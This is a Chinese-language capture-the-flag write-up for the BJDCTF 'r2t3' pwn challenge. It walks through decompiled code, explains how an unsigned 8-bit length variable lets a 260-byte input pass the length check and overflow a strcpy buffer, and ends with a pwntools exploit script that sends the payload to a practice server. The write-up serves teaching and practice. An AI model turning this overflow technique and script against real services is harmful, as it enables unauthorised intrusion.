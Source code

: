 ```yaml
---
layout: post
title:  r2t3
date:   2021-01-28 00:01:01 +0300
image:  2021-01-28-sunset.jpg
tags:   [ctf,PWN,BJDCTF]
---
```


主函数

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-408h]

  my_init();
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("[+]Ret2text3.0?");
  puts("[+]Please input your name:");
  read(0, &buf, 0x400u);
  name_check(&buf);
  puts("Welcome ,u win!");
  return 0;
}
```

无漏洞，查看name_check()函数

```assembly
char *__cdecl name_check(char *s)
{
  char dest; // [esp+7h] [ebp-11h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  printf("Hello,My dear %s", s);
  return strcpy(&dest, s);
}
```

此处dest大小只有0x11，存在漏洞。

但是想要利用漏洞必须先绕过strlen()函数，第一反应想到使用'\0'绕过，但是'\0'也会绕过strcpy()，这样就无法造成dest溢出。

后来发现v3的类型为__int8

Int8, 等于Byte, 占1个字节.

Int16, 等于short, 占2个字节. -32768~32767

Int32, 等于int, 占4个字节. -2147483648~2147483647

Int64, 等于long, 占8个字节. -9223372036854775808~9223372036854775807

此处可以利用整数溢出

即4+2<sup>8</sup>=260~8+2<sup>8</sup>=264

```assembly
from pwn import *

io = remote("node3.buuoj.cn",26212)

system = 0x804858b
payload = "a" * (0x11 + 4) + p32(system)
payload  = payload.ljust(260, "a")
io.send(payload)

io.interactive()
```

